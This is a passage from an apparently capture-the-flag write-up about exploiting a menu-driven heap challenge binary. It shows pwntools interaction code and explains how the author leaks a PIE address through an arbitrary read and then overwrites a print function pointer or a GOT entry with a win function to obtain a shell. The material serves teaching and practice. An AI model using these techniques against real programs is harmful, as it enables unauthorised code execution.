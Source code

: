 ```
	target.sendline(b'3')
	print(target.recvuntil(b'What index would you like to modify'))
	target.sendline(str(index))
	print(target.recvuntil(b'What type would you like?'))
	target.sendline(b'4')
	print(target.recvuntil(b'What is your value:'))
	target.sendline(character)

def edit_string(index, length, data):
	print(target.recvuntil(b'5. Exit'))
	target.sendline(b'3')

	print(target.recvuntil(b'What index would you like to modify'))
	target.sendline(str(index))

	print(target.recvuntil(b'What type would you like?'))
	target.sendline(b'1')

	print(target.recvuntil(b'like your string to be'))
	target.sendline(str(length))

	print(target.recvuntil(b'data'))
	target.sendline(data)

def display():
	print(target.recvuntil(b'5. Exit\n'))
	target.sendline(b'2')

create_string(20, '0' * 20)
edit_string(0, 15, b'a' * 15)

display()

target.interactive()
```
At this point, I have two options for my approach. I could attempt a partial overwrite of the print function pointer with the win function; however, the low two bytes of the functions differ, and only the low three nibbles of win will be known between executions, so I will have to guess one nibble for 1/16 odds of success. This is not bad, and if I did not have an alternative idea, I would have implemented this.

However, I realized that in addition to an arbitrary write, I should be able to get an arbitrary read. I can simply use the string to char to string method to input a string of length zero to the heap offset that contains the display_string address, then use the display option to read that unedited address. I use this to get a PIE leak and find the win function's address, and from there, I can write the win function to the print pointer, overwriting the display_string address. 

# Writing the Exploit

One final note of housekeeping is that if you want to overwrite the print address, you do need to create a second string to char to string object and use that to overwrite the display_string address of the first object. This is becausse the display_string address is written to the print pointer after I write in the contents of my string, so if I try to overwrite the print pointer of the object I am currently editing, my efforts will be overwritten and nothing will happen. I have since realized that since there is only partial RELRO, I should also be able to just overwrite a GOT function like puts with my win function and also get a shell now that I have a PIE leak.
